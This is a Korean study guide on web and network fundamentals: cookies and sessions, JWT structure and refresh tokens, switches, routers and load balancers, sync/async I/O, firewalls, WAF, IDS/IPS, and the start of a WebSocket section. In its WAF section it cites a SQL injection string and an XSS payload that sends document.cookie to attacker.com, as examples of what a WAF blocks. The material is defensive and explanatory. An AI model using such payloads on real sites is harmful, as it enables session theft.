- **개념**: 서버가 클라이언트에게 전달하여 **웹 브라우저 로컬 저장소에 보관시키는 작은 크기(최대 4KB)의 키-값(Key-Value) 문자열 데이터**입니다.
- **동작 방식**: 서버가 응답 헤더에 `Set-Cookie: user=홍길동`을 실어 보내면, 브라우저는 이 쿠키를 저장해 두었다가 향후 동일 도메인으로 요청을 보낼 때마다 요청 헤더에 `Cookie: user=홍길동`을 자동으로 얹어서 전송합니다.

```
[서버] ──(응답: Set-Cookie: theme=dark)──> [브라우저 쿠키 저장소]
[서버] <──(다음 요청: Cookie: theme=dark)── [브라우저]
```

#### 쿠키의 보안 취약점과 필수 보안 플래그
쿠키는 사용자의 컴퓨터 브라우저에 평문 형태로 보관되므로 탈취와 변조에 취약합니다. 실무에서는 반드시 다음 플래그를 설정해야 합니다.

1. **`HttpOnly`**: 자바스크립트(`document.cookie`)를 통한 쿠키 접근을 원천 차단합니다. 악의적인 스크립트를 삽입하여 쿠키를 탈취하는 **XSS(Cross-Site Scripting) 공격**을 방어하는 가장 확실한 방패입니다.
2. **`Secure`**: 오직 암호화된 `HTTPS` 통신 채널에서만 쿠키를 전송하도록 제한합니다. 공공 와이파이 환경에서 패킷 스니핑(Sniffing)으로 쿠키가 평문 노출되는 것을 방지합니다.
3. **`SameSite`**: 서로 다른 도메인 간의 요청(Cross-Site Request) 시 쿠키 전송 여부를 통제하여 **CSRF(Cross-Site Request Forgery) 공격**을 차단합니다.
   - `Strict`: 어떤 크로스 사이트 요청에서도 쿠키를 절대 전송하지 않음.
   - `Lax`: 사용자가 링크를 클릭해 이동하는 단순 안전 요청(GET)에만 쿠키 허용(최신 브라우저의 기본값).
   - `None`: 모든 상황에서 쿠키 전송 허용 (반드시 `Secure` 속성과 함께 사용해야 함).

---

### 9.2 세션 (Session): 서버가 보관하는 진짜 장부

- **개념**: 사용자의 민감한 정보(이름, 권한 등)를 클라이언트에 맡기지 않고, **서버 측의 안전한 메모리나 데이터베이스(Redis 등)에 보관하는 메커니즘**입니다.
- **원리**: 클라이언트에게는 의미를 알 수 없는 무작위 문자열인 **`Session ID`**만 쿠키를 통해 쥐여주고, 실제 사용자의 상태 데이터는 서버의 세션 저장소에 매핑해 둡니다.

```mermaid
sequenceDiagram
    autonumber
    actor C as 클라이언트 브라우저
    participant S as 인증 서버 (WAS)
    participant Store as 세션 저장소 (Redis / RAM)

    C->>S: 1. 로그인 요청 (POST /login, ID/PW)
    Note over S: 자격 증명 검증 완료
    S->>Store: 2. 고유 Session ID 생성 및 사용자 데이터 저장<br/>(Key: "sess_9a8b7c", Value: {userId: 101, role: "ADMIN"})
    S-->>C: 3. 로그인 성공 응답<br/>Set-Cookie: JSESSIONID=sess_9a8b7c; HttpOnly; Secure

    Note over C: 브라우저 쿠키에 JSESSIONID 저장

    C->>S: 4. 마이페이지 접근 (GET /mypage)<br/>Cookie: JSESSIONID=sess_9a8b7c
    S->>Store: 5. 전달받은 Session ID로 사용자 정보 조회
    Store-->>S: 6. 사용자 정보 반환 (userId: 101)
    S-->>C: 7. 인증된 사용자 화면 정상 렌더링
```

---

### 9.3 쿠키 vs 세션 상세 비교표

| 비교 항목 | 쿠키 (Cookie) | 세션 (Session) |
| :--- | :--- | :--- |
| **저장 위치** | **클라이언트 로컬 (웹 브라우저)** | **서버 메모리 / 세션 스토리지 (Redis, DB)** |
| **보안성** | 취약 (로컬에 노출, 스니핑/변조 위험 존재) | **우수** (실제 데이터는 서버에 있고 ID만 전달됨) |
| **서버 자원 소모** | 전혀 없음 (클라이언트가 저장하므로 0) | 동시 접속자 수가 많아질수록 서버 메모리 점유 급증 |
| **속도** | 로컬 캐시에서 읽으므로 매우 빠름 | 서버 저장소 조회가 필요하므로 쿠키보다 약간 느림 |
| **수명 (Lifecycle)**| 브라우저를 닫아도 파일로 영구 보존 가능 (Expires) | 브라우저 종료 시 삭제되거나 서버 타임아웃 시 만료 |
| **용량 제한** | 한 도메인당 20개, 쿠키 하나당 4KB | 서버가 허용하는 메모리/디스크 한도 내 무제한 |

> **실무 아키텍처의 딜레마: 세션 클러스터링과 스티키 세션**  
> 서버를 여러 대로 늘리는 스케일 아웃 환경에서 세션을 서버 로컬 메모리에 저장하면, 1번 서버에서 로그인한 사용자가 다음 요청 때 2번 서버로 접속하면 로그인이 풀려버리는 현상이 발생합니다.  
> 이를 해결하기 위해 사용자를 항상 특정 서버로만 보내는 **스티키 세션(Sticky Session)**을 쓰거나, 모든 서버가 세션을 복제하는 **세션 클러스터링(Session Clustering)**, 혹은 모든 WAS가 중앙의 초고속 인메모리 DB를 공유하는 **분산 세션 저장소(Redis Session Storage)**를 구축합니다.

---

## 10. JWT란 무엇인가요?
> **JSON Web Token의 구조(Header.Payload.Signature), 전자 서명 검증 원리, Stateless 인증과 탈취 대응 전략**

앞서 살펴본 전통적인 세션 방식은 보안이 훌륭하지만, 수평 확장(Scale-out) 시 중앙 세션 저장소(Redis)를 유지해야 하고 서버 간 동기화 오버헤드가 발생한다는 명확한 한계를 지닙니다.  

클라우드와 마이크로서비스 아키텍처(MSA) 시대로 접어들며, **"서버가 세션을 일일이 기억하지 말고, 클라이언트가 들고 다니는 신분증 자체가 완벽한 위조 방지 검증 능력을 갖추게 하자!"**는 발상에서 탄생한 표준 토큰 기술이 바로 **JWT(JSON Web Token, RFC 7519)**입니다.

---

### 10.1 JWT의 3단계 구조: `Header.Payload.Signature`

JWT는 점(`.`)을 구분자로 하여 세 개의 파트로 이루어진 하나의 긴 문자열입니다.

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhvbmciLCJpYXQiOjE1MTYyMzkwMjJ9.4z9xJ6...
[─────── 1. Header ───────] . [─────── 2. Payload ───────] . [─────── 3. Signature ───────]
```



#### 1) 헤더 (Header)
- 토큰의 타입(`typ: "JWT"`)과 서명을 생성할 때 사용한 단방향 해시 알고리즘(`alg: "HS256"` 또는 `"RS256"`)을 지정합니다.
- Base64URL로 인코딩되어 첫 번째 블록을 구성합니다.

#### 2) 내용 (Payload : 클레임 데이터)
- 토큰에 담을 실제 사용자 정보(Claim: 속성 정보의 쌍)를 담습니다.
  - **등록된 클레임(Registered Claims)**: `iss`(발행자), `exp`(만료시간), `sub`(토큰 주제/식별자), `iat`(발행시각).
  - **공개/비공개 클레임**: `role: "ADMIN"`, `userId: 101` 등 서비스 비즈니스에 필요한 커스텀 데이터.
- Base64URL로 인코딩되어 두 번째 블록을 이룹니다.

> **경고: Payload는 절대로 암호화된 것이 아닙니다!**  
> Base64URL은 단순한 인코딩(사람이 읽을 수 있는 문자로 변환)일 뿐 암호화가 아닙니다. 누구나 F12 개발자 도구나 jwt.io 사이트에 들어가면 1초 만에 디코딩하여 내부 JSON 데이터를 훤히 들여다볼 수 있습니다. 따라서 **Payload에는 비밀번호, 주민등록번호, 계좌번호와 같은 민감한 개인정보를 절대로 담아서는 안 됩니다.**

#### 3) 서명 (Signature : 위변조 방지의 핵심)
- JWT의 신뢰성을 보장하는 핵심 영역입니다. 헤더와 페이로드를 각각 Base64URL로 인코딩한 뒤, 둘을 합쳐 서버만 알고 있는 **비밀키(Secret Key)**를 사용해 헤더에 지정된 해시 알고리즘으로 암호화하여 서명을 생성합니다.

`Signature = HMAC-SHA256(Base64URL(Header) + "." + Base64URL(Payload), SecretKey)`

---

### 10.2 전자 서명 검증 원리: 왜 위조가 불가능한가?

해커가 악의적으로 페이로드의 `"role": "USER"`를 `"role": "ADMIN"`으로 수정하여 서버로 전송했다고 가정해 봅시다.

```
[해커의 위조 시도]
1. 해커가 Payload를 디코딩하여 권한을 ADMIN으로 변조함
2. 변조된 토큰을 서버로 전송함
3. [서버의 검증]:
   - 서버는 도착한 Header와 변조된 Payload를 자신의 SecretKey로 다시 암호화해 봄
   - 연산 결과 나온 '계산된 서명' != 토큰 끝에 적힌 '기존 서명' (불일치!)
4. 서버는 즉각 토큰을 위조된 것으로 판단하고 401 Unauthorized 에러를 뿜으며 거부함!
```
해커는 서버의 `SecretKey`를 탈취하지 못하는 한, 올바른 서명을 새롭게 생성해 낼 방법이 수학적으로 불가능합니다.

---

### 10.3 JWT의 치명적 약점과 Refresh Token 대응 전략

#### 무상태 인증의 치명적 한계: 즉각 무효화 불가
서버는 토큰을 발급한 뒤에는 세션 저장소에 아무것도 저장하지 않습니다. 따라서 **토큰이 해커에게 한 번 탈취당하면, 서버 측에서 그 토큰을 강제로 만료시키거나 삭제(로그아웃)할 방법이 없습니다.** 토큰에 적힌 만료 시간(`exp`)이 끝날 때까지 해커는 자유롭게 API를 호출할 수 있습니다.

#### 실무 표준 대응책: Access Token과 Refresh Token의 협업 (RTR 전략)

이 문제를 극복하기 위해 실무에서는 **수명이 극도로 짧은 Access Token**과 **수명이 긴 Refresh Token**을 이원화하여 운영합니다.



- **Access Token (수명 약 15분~30분)**: 리소스 API 접근용. 탈취당해도 수명이 짧아 피해가 최소화됩니다.
- **Refresh Token (수명 약 1~2주)**: Access Token 재발급 전용. 브라우저 자바스크립트가 접근할 수 없는 안전한 `HttpOnly/Secure` 쿠키에 저장하며, 탈취 감지 시 서버 Redis에서 즉시 해당 토큰을 삭제하여 영구 차단할 수 있습니다.

---

## 11. 라우터, 스위치, 로드밸런서는 무엇인가요?
> **L2 스위치(MAC 주소 스위칭), L3 라우터(IP 주소 라우팅), L4 vs L7 로드밸런서의 부하 분산 알고리즘**

데이터가 인터넷이라는 거대한 네트워크망을 건너 수천 대의 서버 중 가장 최적의 컴퓨터를 찾아 들어가기 위해서는 길을 뚫어주고 트래픽을 안내해 주는 **네트워크 하드웨어 장비 삼총사**의 도움이 필수적입니다. 이 장비들은 각자가 다루는 OSI 계층에 따라 확연히 구분됩니다.

---

### 11.1 계층별 네트워크 장비의 핵심 역할

```
  [ L7 애플리케이션 ] ──> L7 로드밸런서 (URL, HTTP 헤더, 쿠키 기반 지능형 분산)
  [ L4 전송 계층    ] ──> L4 로드밸런서 (IP + Port 번호 기반 고속 패킷 분산)
  [ L3 네트워크 계층] ──> L3 라우터 (IP 주소 기반 최적 경로 라우팅, 서브넷 연결)
  [ L2 데이터 링크  ] ──> L2 스위치 (MAC 주소 기반 로컬 장비 간 프레임 스위칭)
```

#### 1) L2 스위치 (Switch : 로컬 네트워크의 허브)
- **동작 계층**: OSI 2계층 (데이터 링크 계층).
- **식별 주소**: 하드웨어 고유의 물리적 주소인 **MAC 주소(MAC Address)**.
- **작동 원리**: 모든 포트에 무식하게 패킷을 뿌려대는 허브(Hub)와 달리, 스위치는 들어오는 프레임의 출발지 MAC 주소를 관찰하여 **MAC 주소 테이블(MAC Address Table)**을 스스로 학습(Learning)합니다. 이후 특정 MAC 주소를 향하는 데이터는 다른 포트를 방해하지 않고 해당 장비가 연결된 포트로만 1:1로 직접 쏴줍니다(Filtering & Forwarding).
- **한계**: 같은 내부 네트워크(동일 서브넷/브로드캐스트 도메인) 안에서만 통신할 수 있으며, 서로 다른 네트워크(인터넷)로 데이터를 넘기지 못합니다.

#### 2) L3 라우터 (Router : 글로벌 네트워크의 길잡이)
- **동작 계층**: OSI 3계층 (네트워크 계층).
- **식별 주소**: 논리적 주소인 **IP 주소(IPv4, IPv6)**.
- **작동 원리**: 서로 다른 네트워크(예: 우리 집 공유기 내부망과 네이버 데이터센터 외부망)를 서로 연결해 줍니다. 수많은 경로 중 목적지 IP까지 패킷을 가장 빠르고 안전하게 보낼 수 있는 최적의 경로를 **라우팅 알고리즘(OSPF, BGP)**을 통해 계산하고, 자신의 **라우팅 테이블(Routing Table)**에 따라 패킷을 다음 라우터로 넘겨줍니다(Hop-by-Hop 라우팅).

---

### 11.2 대규모 트래픽의 수호자: L4 vs L7 로드밸런서

서비스의 규모가 커지면 한 대의 서버로는 수십만 명의 접속을 감당할 수 없습니다. 이때 서버 여러 대를 수평으로 배치하고 앞단에서 트래픽을 골고루 분배해 주는 장비가 바로 **로드밸런서(Load Balancer)**입니다.

| 비교 항목 | L4 로드밸런서 | L7 로드밸런서 |
| :--- | :--- | :--- |
| **판단 기준** | **IP 주소 + 포트 번호 (Port)** | **HTTP/HTTPS 페이로드 (URL, 헤더, 쿠키)** |
| **패킷 분석 범위** | 전송 계층 헤더까지만 분석 (내용 안 봄) | 애플리케이션 계층 본문 전체를 뜯어서 분석 |
| **처리 속도** | **극도로 빠름** (단순 패킷 포워딩) | 상대적으로 느림 (패킷 파싱 및 암호화 해제 필요) |
| **비용 및 부하** | 낮음 (적은 CPU 연산) | 높음 (메모리 및 연산 자원 소모 큼) |
| **지능형 라우팅** | 불가 (단순 포트 매핑) | **가능** (`/api`는 WAS로, `/img`는 CDN으로 분기) |
| **대표 기술** | F5 BIG-IP, AWS NLB (Network LB), IPVS | Nginx, HAProxy, AWS ALB (Application LB) |

```
[L4 라우팅 예시]
192.168.0.1:80 으로 오는 TCP 패킷 ───> 10.0.0.1:8080 or 10.0.0.2:8080 으로 번갈아 바이패스

[L7 라우팅 예시]
요청 URL 분석:
  • https://example.com/videos/* ───> 고용량 동영상 전용 서버군
  • https://example.com/api/pay/* ──> 결제 전용 마이크로서비스
  • 모바일 기기(User-Agent) 요청 ───> 모바일 전용 뷰 렌더링 서버
```

---

### 11.3 대표적인 로드밸런싱 알고리즘

서버들에게 트래픽을 어떤 규칙으로 나누어 줄 것인가는 서비스 특성에 따라 결정됩니다.

1. **라운드 로빈 (Round Robin)**
   - 서버 목록을 순서대로 돌아가며 1:1:1로 공평하게 요청을 배분합니다. 서버들의 하드웨어 스펙이 모두 동일하고 요청들의 처리 시간이 균일할 때 적합합니다.
2. **가중 라운드 로빈 (Weighted Round Robin)**
   - 각 서버의 성능에 가중치를 부여합니다. 고성능 8코어 서버에는 가중치 3, 구형 2코어 서버에는 가중치 1을 할당하여 트래픽을 3:1 비율로 처리시킵니다.
3. **최소 연결 방식 (Least Connections)**
   - 현재 **활성 연결(Active Connection) 수가 가장 적은 서버**로 새 요청을 보냅니다. 파일 다운로드, 비디오 스트리밍처럼 연결 유지 시간이 제각각인 서비스에 가장 이상적입니다.
4. **IP 해시 (IP Hash / Source Hash)**
   - 클라이언트의 IP 주소를 해싱하여 특정 서버에 1:1로 고정 매핑합니다. 사용자가 재접속해도 항상 같은 서버로 연결되므로 세션 불일치 문제를 해결할 수 있습니다.

---

## 12. 통신에서 동기와 비동기는 어떻게 다른가요?
> **동기 vs 비동기, 블로킹 vs 논블로킹의 4분면 매트릭스 및 네트워크 소켓 프로그래밍 비유**

개발자들이 가장 많이 혼동하며 면접 단골 질문으로 꼽히는 개념이 바로 **동기(Synchronous) / 비동기(Asynchronous)**와 **블로킹(Blocking) / 논블로킹(Non-blocking)**입니다. 두 쌍은 서로 비슷한 것 같지만, 전혀 다른 관심사를 바라보고 있습니다.

---

### 12.1 개념의 명확한 분리: 관심사의 차이

```
┌────────────────────────────────────────────────────────────────────────┐
│ 1. 동기 / 비동기 (Sync / Async)     : "작업의 완료를 누가 신경 쓰는가?"    │
│ 2. 블로킹 / 논블로킹 (Block / Non-Block) : "호출된 함수가 제어권을 바로 주는가?" │
└────────────────────────────────────────────────────────────────────────┘
```

- **동기 (Synchronous)**: 호출자(A)가 피호출자(B)의 작업 완료 여부나 결과를 **직접 계속 확인하고 챙기는** 방식입니다.
- **비동기 (Asynchronous)**: 호출자(A)는 피호출자(B)에게 일을 맡기며 콜백(Callback) 함수를 넘겨주고, **자신은 결과에 전혀 신경을 끕니다**. B가 작업을 마치면 스스로 콜백을 실행하거나 이벤트를 쏴서 완료를 알립니다.
- **블로킹 (Blocking)**: A가 B를 호출했을 때, B가 자신의 작업이 끝날 때까지 **제어권(Control)을 쥐고 돌려주지 않아서 A가 아무 일도 못 하고 멈춰있는(Wait)** 상태입니다.
- **논블로킹 (Non-blocking)**: A가 B를 호출했을 때, B가 준비 여부와 상관없이 **제어권을 즉시 A에게 반환하여 A가 자기 할 일을 계속할 수 있게 해주는** 상태입니다.

---

### 12.2 블로킹/논블로킹 x 동기/비동기 4분면 매트릭스

두 축을 교차하면 실무에서 마주치는 4가지 환상적인 통신 모델이 완성됩니다.

```
                  [ 동기 (Sync) ]                      [ 비동기 (Async) ]
       ┌────────────────────────────────────┬────────────────────────────────────┐
       │ 1. Sync - Blocking                 │ 2. Async - Blocking                │
       │ • 제어권 없음 + 결과 기다림        │ • 제어권 없음 + 결과 통지 방식     │
블로킹 │ • 흔한 전통적 I/O 모델             │ • 의도치 않은 안티패턴             │
       │ • ex) 전통적 JDBC 쿼리,            │ • ex) Node.js에서 블로킹 C 라이브  │
       │       일반적인 동기 파일 읽기      │       러리를 잘못 호출했을 때      │
       ├────────────────────────────────────┼────────────────────────────────────┤
       │ 3. Sync - Non-blocking             │ 4. Async - Non-blocking            │
       │ • 제어권 바로 받음 + 결과 확인 폴링│ • 제어권 바로 받음 + 콜백으로 통지 │
논블록 │ • 결과 나올 때까지 반복 질문       │ • 가장 이상적인 고성능 I/O         │
       │ • ex) 루프를 돌며 소켓 데이터 준비 │ • ex) Node.js 이벤트 루프, Netty,  │
       │       상태를 확인하는 Polling      │       Linux epoll, Nginx 아키텍처  │
       └────────────────────────────────────┴────────────────────────────────────┘
```

#### 4분면 일상 비유와 네트워크 소켓 예시

1. **동기 + 블로킹 (Sync-Blocking)**:  
   - *비유*: 카페에서 커피를 주문하고, 커피가 나올 때까지 카운터 앞에 멍하니 서서 다른 아무 일도 하지 못하고 기다림.
   - *소켓*: 클라이언트가 `socket.read()`를 호출하면, 서버에서 데이터 패킷이 랜카드로 도착할 때까지 스레드가 대기 큐에 잠들고 CPU를 반납함.
2. **동기 + 논블로킹 (Sync-Nonblocking)**:  
   - *비유*: 카운터에 "커피 나왔나요?"라고 5초마다 가서 물어봄. 아직 안 나왔다고 하면 제자리로 와서 휴대폰을 잠깐 만지작거리다가 다시 가서 "지금은 나왔나요?" 확인(Polling).
   - *소켓*: Non-blocking 모드로 설정된 소켓에서 `read()`를 호출하면 데이터가 없어도 에러(`EWOULDBLOCK`)를 내며 즉시 리턴. 스레드는 루프를 돌며 패킷이 찰 때까지 계속 질의함.
3. **비동기 + 블로킹 (Async-Blocking)**:  
   - *비유*: 진동벨(콜백)을 받아 자리에 앉았는데, 굳이 진동벨이 울릴 때까지 아무 생각도 안 하고 얼어붙어 있는 기괴한 상황.
   - *소켓*: 비동기 논블로킹 프레임워크를 쓰면서 중간에 오래된 동기 블로킹 라이브러리(전통 RDBMS 드라이버 등)를 호출하여 전체 이벤트 루프가 멈춰버리는 현상.
4. **비동기 + 논블로킹 (Async-Nonblocking)**:  
   - *비유*: 진동벨을 받아 들고 자기 자리로 돌아와 편안하게 노트북으로 코딩을 함. 커피가 완성되면 진동벨이 저절로 울리고 그때 커피를 픽업해 옴.
   - *소켓*: 운영체제의 커널 I/O 이벤트 통지 시스템(**Linux epoll, macOS kqueue, Windows IOCP**)을 이용해 데이터가 다 수신되었을 때만 애플리케이션으로 신호를 보내 처리하는 고성능 비동기 아키텍처.

---

## (+) 방화벽과 보안 장비는 무엇인가요?
> **네트워크 레벨 방화벽(Packet Filtering), WAF, IDS/IPS, DDoS 방어 장비의 계층별 보안 아키텍처**

기업의 엔터프라이즈 인프라는 매일 수억 건의 악의적인 해킹 공격, 포트 스캐닝, 랜섬웨어 침투 시도에 노출되어 있습니다. 서비스를 안전하게 지키기 위해 엔지니어는 단 하나의 방어선에 의존하지 않고, 트래픽이 유입되는 관문마다 다양한 특성의 보안 장비를 계층적으로 배치하는 **심층 방어(Defense in Depth)** 전략을 구사합니다.

---

### 12.1 계층별 네트워크 보안 장비 아키텍처

```
[외부 악성 트래픽 유입]
          │
          ▼
 [ 1단계 : DDoS 방어 장비 ]  ───> 수십 Gbps의 볼륨 트래픽 및 SYN Flooding 흡수/차단
          │
          ▼
 [ 2단계 : L3/L4 레벨 방화벽 ] ───> 5-Tuple 기반 비인가 IP 및 비인가 포트(Port) 패킷 차단
          │
          ▼
 [ 3단계 : IPS (침입 방지 시스템) ] ───> 패킷 시그니처 분석을 통한 악성코드/취약점 실시간 차단
          │
          ▼
 [ 4단계 : WAF (웹 애플리케이션 방화벽) ] ───> HTTP 페이로드 정밀 검사 (SQL Injection, XSS 차단)
          │
          ▼
[안전한 내부 웹 서버 & WAS]
```

---

### 12.2 주요 보안 장비별 특징과 방어 영역

#### 1) 네트워크 레벨 방화벽 (Packet Filtering & Stateful Inspection)
- **동작 계층**: OSI 3계층(IP) 및 4계층(Port).
- **작동 원리**: **5-Tuple**(출발지 IP, 목적지 IP, 출발지 Port, 목적지 Port, 프로토콜) 정보를 기반으로 트래픽을 허용(`Allow`)하거나 폐기(`Drop`)합니다.
- **상태 기반 감시(Stateful Inspection)**: 단순 패킷 필터링을 넘어, 이미 3-Way Handshake를 정상적으로 맺은 세션의 응답 패킷은 번거로운 규칙 검사 없이 자동으로 통과시켜 처리 성능을 대폭 끌어올립니다.
- *한계*: 80(HTTP), 443(HTTPS)처럼 허용해 둔 포트로 들어오는 정상 패킷 내부에 은밀하게 숨겨진 웹 해킹 공격 코드는 탐지하지 못합니다.

#### 2) 웹 애플리케이션 방화벽 (WAF : Web Application Firewall)
- **동작 계층**: OSI 7계층 (애플리케이션 계층).
- **작동 원리**: HTTP/HTTPS 트래픽의 헤더와 바디 본문(JSON, Form Data)을 정밀하게 디코딩하여, 웹 애플리케이션의 고유 취약점을 노리는 악성 페이로드를 실시간으로 탐지하고 차단합니다.
- **주요 방어 대상 (OWASP Top 10)**:
  - **SQL Injection**: `SELECT * FROM users WHERE id = '1' OR '1'='1';` 과 같은 악의적 SQL 구문 차단.
  - **XSS (Cross-Site Scripting)**: `<script>fetch('http://attacker.com/steal?cookie=' + document.cookie)</script>` 스크립트 무력화.
  - 악성 파일 업로드 필터링 및 비정상 User-Agent 봇 차단.
- **대표 제품**: AWS WAF, Cloudflare WAF, ModSecurity.

#### 3) 침입 탐지/방지 시스템 (IDS vs IPS)
- **IDS (Intrusion Detection System : 침입 탐지)**:
  - 네트워크 탭(TAP)이나 미러링 포트를 통해 트래픽을 복제하여 모니터링합니다. 해킹 징후나 기지국 공격 패턴을 발견하면 보안 관리자에게 경고(Alert)를 보냅니다. 트래픽 흐름 밖에 있으므로 서비스 지연을 유발하지 않으나, 실시간 직접 차단은 불가능한 **수동적(Passive)** 감시 장비입니다.
- **IPS (Intrusion Prevention System : 침입 방지)**:
  - 패킷이 통과하는 인라인(Inline) 길목에 직접 배치됩니다. 알려진 악성코드 시그니처(Signature)와 일치하거나 비정상적인 트래픽 급증(Anomaly)이 감지되면 즉각 해당 패킷을 드롭(Drop)시키고 세션을 강제 종료시키는 **능동적(Active)** 방어 장비입니다.

#### 4) DDoS 방어 장비 (Distributed Denial of Service Protection)
- 수만 대의 좀비 PC나 봇넷을 동원해 서버가 감당할 수 없는 초거대 대역폭 트래픽을 퍼붓는 DDoS 공격을 무력화합니다.
- **볼륨 공격 방어**: 전 세계 Anycast 네트워크로 트래픽을 지리적으로 잘게 쪼개어 분산 흡수하고, 정상 트래픽만 걸러내는 **스크러빙 센터(Scrubbing Center)**를 통해 원본 서버를 보호합니다.
- **프로토콜 공격 방어**: 3-Way Handshake의 미완료 취약점을 악용하는 **SYN Flooding** 공격을 막기 위해, 로드밸런서가 대신 가상으로 SYN-ACK를 응답하여 유효성을 검증하는 **SYN Cookie** 기술 등을 사용합니다.

---

## (+) 웹 소켓(Web Socket)은 무엇인가요?
> **HTTP 폴링의 한계 극복, HTTP 업그레이드 핸드셰이크, 전이중(Full-Duplex) 실시간 양방향 통신과 실무 활용**

우리가 일상에서 사용하는 카카오톡 웹 버전, 업비트/바이낸스의 실시간 코인 호가창, 구글 닥스의 동시 편집 기능은 어떻게 화면 새로고침 없이 밀리초(ms) 단위로 번쩍이며 최신 데이터를 보여줄 수 있을까요? 전통적인 HTTP의 요청-응답 패러다임만으로는 이와 같은 실시간 양방향 통신을 구현하기에 태생적인 한계가 있었습니다. 이를 해결하기 위해 W3C와 IETF가 표준화한 기술이 바로 **웹소켓(WebSocket, RFC 6455)**입니다.

---

### 13.1 실시간 통신 기법의 눈물겨운 변천사

웹소켓이 등장하기 전, 개발자들은 HTTP 위에서 실시간 효과를 흉내 내기 위해 수많은 편법을 사용했습니다.

```
1. 폴링 (Polling)
   클라이언트: "새 데이터 있나요?" ──> 서버: "없습니다." (1초 후)
   클라이언트: "새 데이터 있나요?" ──> 서버: "없습니다." (1초 후)
   • 문제점: 데이터가 없어도 수백 바이트의 HTTP 헤더 패킷이 낭비되며 서버 부하 급증.

2. 롱 폴링 (Long Polling)
   클라이언트: "새 데이터 있나요?" ──> 서버: (데이터 생길 때까지 연결을 안 끊고 대기...)
   서버: "드디어 생겼습니다! (응답)" ──> 클라이언트: "받았습니다. 그리고 다시 연결 열어둘게요!"
   • 문제점: 데이터가 자주 발생하는 서비스에서는 결국 폴링과 다를 바 없이 잦은 재연결 비용 발생.

3. 웹소켓 (WebSocket)
   클라이언트 <══════════════ [단 하나의 전이중 영구 파이프] ══════════════> 서버
   • 혁신: 연결을 영구히 유지하며, 헤더 오버헤드(단 2바이트) 없이 양방향으로 즉시 데이터 송출!
```

---

### 13.2 WebSocket 연결 수립: HTTP 핸드셰이크와 프로토콜 업그레이드

웹소켓은 완전히 새로운 포트를 열고 시작하는 것이 아닙니다. 방화벽과 프록시를 매끄럽게 통과하기 위해, **처음에는 기존 웹과 똑같이 80(HTTP) 또는 443(HTTPS) 포트로 표준 HTTP 요청을 보내고, 이를 웹소켓으로 승격(Upgrade)시키는 영리한 방식**을 사용합니다.

